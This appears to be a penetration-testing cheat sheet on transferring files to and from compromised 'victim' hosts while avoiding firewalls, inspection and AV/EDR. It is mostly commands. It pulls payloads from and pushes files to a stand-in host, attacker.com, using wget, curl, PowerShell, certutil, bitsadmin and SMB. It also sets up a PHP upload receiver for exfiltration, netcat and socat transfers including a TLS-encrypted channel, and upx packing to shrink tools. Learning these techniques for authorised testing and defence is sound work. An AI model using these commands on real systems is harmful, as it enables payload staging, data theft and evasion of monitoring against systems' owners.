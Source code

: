 # File transfer techniques

## Questions to ask yourself
  *  What firewall rules are in place?
  *  Any DPI appliances intercepting traffic?
  *  What AV/EDR solutions are deployed on the victim hosts?

## Things to remember
  *  Consider defenses and choose proto/port/path accordingly
      *  Some protocols/ports may be blocked, don't waste time trying them
      *  Deploying additional tools may trigger an AV action and draw suspicion
  *  Some transfers may require an interactive shell

## Useful tools
  *  [`LOLBAS`](https://lolbas-project.github.io/#) for living off the land
  *  [`exe2hex`](https://github.com/g0tmi1k/exe2hex) for encoding files as a series of commands
  *  [`upx`](https://github.com/upx/upx) for packing executable files
  *  [`xclip`](https://github.com/astrand/xclip) for piping file contents to clipboard
  *  [`scp`](https://man.openbsd.org/scp.1) for transferring files via SSH
  *  [`python`](https://docs.python.org/3/library/http.server.html#module-http.server) and [`php`](https://www.php.net/manual/en/features.commandline.webserver.php) for serving/receiving files via HTTP
  *  [`certutil.exe`](https://lolbas-project.github.io/lolbas/Binaries/Certutil/) and [`bitsadmin`](https://learn.microsoft.com/en-us/windows/win32/bits/bitsadmin-tool) are common LOLBINs for file transfers
  *  [`wget`](https://www.gnu.org/software/wget/) and [`curl`](https://curl.se/) for HTTP transfers to/from Linux machines
  *  [`impacket-smbserver`](https://github.com/fortra/impacket/blob/master/examples/smbserver.py) for serving/receiving files via SMB
  *  [`netcat`](https://salsa.debian.org/debian/netcat), [`powercat`](https://github.com/besimorhino/powercat), [`socat`](http://www.dest-unreach.org/socat/) for file transfers over raw TCP

## Copy/paste upload
  *  `exe2hex` used to reconstruct files via encoding and LOLBINS
      *  `xclip` to pipe commands to clipboard for pasting
  *  Effectively transfering a file "inline" over an established C2 channel
  *  Larger executables are cumbersome with this method
      *  Use a packer like `upx` to reduce size
      *  `Golang` binaries are notoriously big, [optimize before packing](https://sibprogrammer.medium.com/go-binary-optimization-tricks-648673cc64ac)

```
upx --best example.exe
exe2hex -x example.exe -p example.cmd
xclip -i example.cmd -selection clipboard
```

## SSH download/upload
  *  `scp` for transferring files via SSH
  *  Consider configuring SSHd/keys on your attacker machine
      *  This will allow for a reverse SSH transfer to the target

```
scp -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" bob@10.0.0.1:/path/to/remote.exe remote-now-local.exe
scp -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" local.exe bob@10.0.0.1:/path/to/local-now-remote.exe
```

## HTTP download
  *  Python `http.server` useful for quickly serving files
  *  `powershell` cmdlets, `certutil.exe`, and `bitsadmin` for HTTP downloads on Windows  
  *  `wget` and `curl` for HTTP downloads on Linux

// Start HTTP server
```
python3 -m http.server 80
```

```
wget http://attacker.com/example.txt
```

```
PS > (New-Object Net.WebClient).DownloadFile('http://attacker.com/example.txt', 'C:\example.txt')
certutil.exe -urlcache -f http://attacker.com/example.txt example.txt
bitsadmin /transfer ExampleJobName /download /priority high http://attacker.com/example.txt C:\example.txt
```

## HTTP upload
  *  `php` command-line server for hosting upload script
      *  Small `upload.php` script handles HTTP POST
      *  Default PHP INI setting `upload_max_filesize` is 2MB: 0 for no restriction
      *  Files with same name will be overwritten: **BE CAREFUL**
  *  `powershell` cmdlets for uploading files via HTTP POST on Windows
  *  `curl` for uploading files via HTTP POST on Linux

// Create `upload.php` and start PHP server
```
echo '<?php move_uploaded_file($_FILES["file"]["tmp_name"],$_FILES["file"]["name"]); ?>' > upload.php && php -S 0.0.0.0:80 --define upload_max_filesize=0
```

```
curl -i -F file=@/path/to/file http://attacker.com/upload.php
```

```
PS > (New-Object System.Net.WebClient).UploadFile('http://attacker.com/upload.php', 'C:\example.txt')
```

## SMB download/upload
  *  `impacket-smbserver` for creating SMB file shares on Linux
      *  Use `-smb2support` to support newer Windows versions
  *  `copy` command for downloading files from SMB shares on Windows
  *  `smbclient` for interacting with SMB shares on Linux

// Start SMB server
```
impacket-smbserver share .
impacket-smbserver share . -smb2support
```

```
copy \\attacker.com\share\example.txt .
copy example.txt \\attacker.com\share
```

```
smbclient -c 'get example.txt' -N \\\\attacker.com\\share
smbclient -c 'put example.txt' -N \\\\attacker.com\\share
```

## A clowder of cats
  *  `netcat`, `powercat`, `socat` for file transfers over raw TCP
      *  socat supports TLS, used for [encrypted data channels](https://www.query.ai/resources/blogs/creating-a-secure-encrypted-channel-with-socat/)

```
nc -nvlp 4444 < example.txt
nc -nv 10.0.0.1 4444 > example.txt
PS > powercat -c 10.0.0.1 -p 4444 -of example.txt
```

```
socat TCP4-LISTEN:4444,fork,reuseaddr file:example.txt,create
socat TCP4:10.0.0.1:4444 file:example.txt
```

```
openssl genrsa -out enc.key 2048
openssl req -new -key enc.key -x509 -days 365 -out enc.crt
cat enc.key enc.crt > enc.pem
socat SSL-L:4444,cert=enc.pem,verify=0,fork,reuseaddr file:example.txt
socat SSL:127.0.0.1:4444,verify=0 file:example.txt,create
```
